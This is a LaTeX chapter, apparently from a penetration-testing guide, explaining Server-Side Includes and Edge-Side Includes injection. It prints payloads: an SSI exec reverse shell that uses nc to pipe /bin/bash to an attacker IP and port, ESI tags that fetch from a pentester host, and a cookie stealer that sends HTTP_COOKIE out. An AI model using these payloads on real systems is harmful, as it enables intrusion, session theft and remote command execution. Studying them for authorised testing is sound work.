\chapter{Server Side includes injection (SSI)}

\section{Introduction}
Server-side includes (SSI) is a technology used by web applications to create
dynamic content on HTML pages before loading or during the rendering process by
evaluating SSI directives. Some SSI directives are:
\begin{verbatim}
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
\end{verbatim}

The use of SSI on a web application can be identified by checking for
extensions such as \verb+.shtml+, \verb+.shtm+, or \verb+.stm+. That said,
non-default server configurations exist that could allow other extensions (such
as \verb+.html+) to process SSI directives.

payloads need to be sumbited to the target application, through input fields to
test for SSI injection. The web server will parse and execute the directives
before rendering the page if a vulnerability is present, but be aware that
those vulnerabilities can exist in blind format too. Successful SSI injection
can lead to extracting sensitive information from local files or even executing
commands on the target web server.

\section{basic payloads}
\begin{verbatim}
<!--#echo var="DATE_LOCAL" -->
\end{verbatim}


\section{Reverse shell}
\begin{verbatim}
<!--#exec cmd="mkfifo /tmp/foo;nc <IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
\end{verbatim}

\chapter{Edge-Side Includes (ESI)}
Edge Side Includes (ESI) is an XML-based markup language used to tackle
performance issues by enabling heavy caching of Web content, which would be
otherwise unstorable through traditional caching protocols. Edge Side Includes
(ESI) allow for dynamic web content assembly at the edge of the network
(Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the
page processor what needs to be done to complete page assembly through ESI
element tags (XML tags).

ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server,
etc.) to fetch additional information regarding a web page with an already
cached template. This information may come from another server before rendering
the web page to the end-user. ESI enable fully cached web pages to include
dynamic content.

Edge-Side Include Injection occurs when an attacker manages to reflect
malicious ESI tags in the HTTP Response. The root cause of this vulnerability
is that HTTP surrogates cannot validate the ESI tag origin. They will gladly
parse and evaluate legitimate ESI tags by the upstream server and malicious ESI
tags by an attacker.

Although the use of ESI can be identified by inspecting response headers in
search for Surrogate-Control: content="ESI/1.0", usually the use a blind
attack approach to detect if ESI is in use or not is needed. Specifically, ESI
tags can be introduced to HTTP requests to see if any intermediary proxy is
parsing the request and if ESI Injection is possible. Some useful ESI tags
are:

\begin{verbatim}
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
\end{verbatim}


When the application processing ESI directives supports XSLT, a dynamic
language used to transform XML, it might be possible to achieve {\bf remote
code execution}. In that case, \verb+dca=xslt+ can be passed to the payload.
The XML file selected will be processed with the possibility of performing XML
External Entity Injection Attacks (XXE) with some limitations.

\href{https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/}{GoSecure}
has created a table to help understand possible attacks that can be tried against different ESI-capable software, depending on the functionality supported. 

regarding the vulnerabilities they describe:
\begin{itemize}
    \item Includes: Supports the \verb+<esi:includes>+ directive
    \item Vars: Supports the \verb+<esi:vars>+ directive. Useful for bypassing XSS Filters
    \item Cookie: Document cookies are accessible to the ESI engine
    \item Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
    \item Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts
\end{itemize}

\begin{figure}
  
\includegraphics[width=\linewidth]{web/ssi/images/ssi.png}
  \caption{decision tree}
  \label{fig:decision_tree}
\end{figure}
